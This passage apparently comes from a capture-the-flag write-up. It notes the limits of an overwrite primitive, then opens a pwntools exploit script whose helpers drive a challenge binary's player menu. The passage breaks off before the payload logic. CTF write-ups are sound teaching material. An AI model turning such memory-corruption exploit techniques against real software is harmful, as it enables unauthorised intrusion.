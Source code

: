  - you cannot write the bytes ``\n`` and ``\0``, so if your address has a digit with these values you need to change
the overwritten function if possible or use a more generic primitive.
 - it's one-shot: you cannot change the address without redoing the dance

## Exploit

For completeness below you can read the exploit used to solve the challenge,
it needs the executable and its system library in the same directory
where this file lives. Remember to export ``LD_LIBRARY_PATH`` if
you want to try it and to install ``pwntools``.

```python
# encoding:utf8
from pwn import args, log
from pwnlib.tubes import process, remote
from pwnlib.util import packing
from pwnlib.elf.elf import ELF
import os
import sys


def recvuntil_main_menu(t):
    return t.recvuntil('6.- Show team\nYour choice: ', timeout=4)

def add_player(t, name):
    t.sendline('1')
    response = t.recvuntil('Enter player name: ')
    t.sendline(name)
    t.sendline('1')
    t.sendline('1')
    t.sendline('1')
    t.sendline('1')

    recvuntil_main_menu(t)

def select_player(t, index):
    t.sendline('3')

    t.recvuntil('Enter index: ')

    t.sendline(str(index))

    recvuntil_main_menu(t)

def edit_player(t, name):
    t.sendline('4')

    t.recvuntil('5.- Set precision\nYour choice: ')

    t.sendline('1')
    t.recvuntil('Enter new name: ')

    t.sendline(name)

    t.sendline('0')

    return recvuntil_main_menu(t)

def show_player(t):
    t.sendline('5')
    return recvuntil_main_menu(t)

def delete_player(t, index):
```